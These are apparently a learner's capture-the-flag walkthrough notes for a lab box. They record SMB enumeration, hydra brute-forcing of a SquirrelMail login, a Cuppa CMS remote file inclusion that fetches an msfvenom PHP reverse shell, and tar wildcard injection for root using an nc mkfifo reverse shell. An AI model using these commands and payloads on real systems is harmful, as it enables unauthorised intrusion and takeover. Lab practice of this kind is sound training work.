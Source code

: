SMB enum found users: milesdyson and anonymous
Also found log with passwords

Tried to use log to gain access to squirrelmail server
	hydra -l milesdyson -P log1.txt 10.10.185.215 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

Once I was able to login found password was reset on smb

smbclient //<ip>/milesdyson -U milesdyson

Found important.txt which had undiscovered directory. ﻿/45kra24zxs28v3yd
Gobuster found /administrator directory which had a cuppa server running on it.
Found exploit in exploit-db 25971 which documented remote code execution on cuppa

Created php reverse_tcp connection
	msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.42.149 LPORT=4444 -f raw -o rev_met.php
	
Set up multihandler for metasploit
	set PAYLOAD php/meterpreter/reverse_tcp

Set up python http server
	Ran "http://<IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<myIP>:8000/rev_met.php"

Once on server I was able to take advantage of cron backup job with following commands. Not exactly sure how or why this works. Need to be in /var/www/html to run. Has something to do with tar command wildcards.
	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 1234 >/tmp/f" > shell.sh
	touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
	touch "/var/www/html/--checkpoint=1"

